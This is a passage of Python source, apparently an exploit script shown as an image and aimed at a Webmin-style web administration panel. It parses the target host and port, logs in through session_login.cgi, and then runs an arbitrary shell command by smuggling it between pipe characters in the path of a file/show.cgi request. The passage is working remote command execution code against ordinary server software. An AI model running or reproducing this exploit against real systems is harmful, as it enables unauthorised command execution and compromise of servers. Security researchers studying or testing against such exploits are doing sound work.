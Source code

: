 ```python
        if not self.args.port:
            if ":" in self.args.target:
                self.host, self.port = self.host.split(":")
            else:
                sys.stderr.write(
                    "[!] port is required (either pass -p or use IP:PORT syntax)"
                )
                exit(-1)
        else:
            self.host = self.args.target.removesuffix("/")
            self.port = self.args.port

        self.host = self.host.removesuffix(f":{self.port}")

    def login(self):
        self.session = requests.Session()

        try:
            response = self.session.post(
                self.url + "/session_login.cgi",
                data={
                    "user": self.username,
                    "pass": self.password,
                },
                cookies={"testing": "1"},
                allow_redirects=False,
            )
        except (ConnectionRefusedError, requests.exceptions.ConnectionError) as e:
            sys.stderr.write(f"[!] error: {e.args[0]}\n")
            exit(-1)

        if "sid" in self.session.cookies:
            return not self.session.cookies["sid"] == 1

    def execute_command(self):
        random_string = "".join(
            [random.choice(string.ascii_letters) for _ in range(random.randint(3, 12))]
        )

        self.session.get(
            self.url
            + f"/file/show.cgi/bin/{random_string}|{urllib.parse.quote(self.command)}|"
        )


if __name__ == "__main__":
    exploit = Exploit(get_args())
    success = exploit.run()

    if not success:
        sys.exit(1)
```
